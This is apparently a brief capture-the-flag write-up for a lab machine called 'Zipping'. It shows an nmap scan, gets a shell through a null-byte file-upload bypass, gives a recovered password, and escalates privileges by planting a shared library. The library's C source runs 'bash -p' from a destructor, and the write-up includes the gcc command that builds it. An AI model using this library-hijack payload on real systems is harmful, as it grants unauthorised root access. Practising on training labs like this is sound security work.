




```
sudo nmap -A -T4 10.10.11.229
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 14:33 EDT
Warning: 10.10.11.229 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.11.229
Host is up (0.30s latency).
Not shown: 987 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 9d6eec022d0f6a3860c6aaac1ee0c284 (ECDSA)
|_  256 eb9511c7a6faad74aba2c5f6a4021841 (ED25519)
80/tcp    open     http            Apache httpd 2.4.54 ((Ubuntu))
|_http-title: Zipping | Watch store
|_http-server-header: Apache/2.4.54 (Ubuntu)
81/tcp    filtered hosts2-ns
1029/tcp  filtered ms-lsa
1102/tcp  filtered adobeserver-1
1152/tcp  filtered winpoplanmess
2522/tcp  filtered windb
3168/tcp  filtered poweronnud
3404/tcp  filtered unknown
6006/tcp  filtered X11:6
7777/tcp  filtered cbt
8180/tcp  filtered unknown
32780/tcp filtered sometimes-rpc23
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 88.92 seconds
```


on work with us we can see a file upload

```
https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/
```

using null byte injection we got the shell






using strings we got the password St0ckM4nager






using strace we found the a file not found replacing it by a shell can give us root access

```
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h> 
void inject(void) __attribute__((destructor)); 

void inject(void){ 
    system("bash -p"); 
}
```

```
gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC payload.c
```

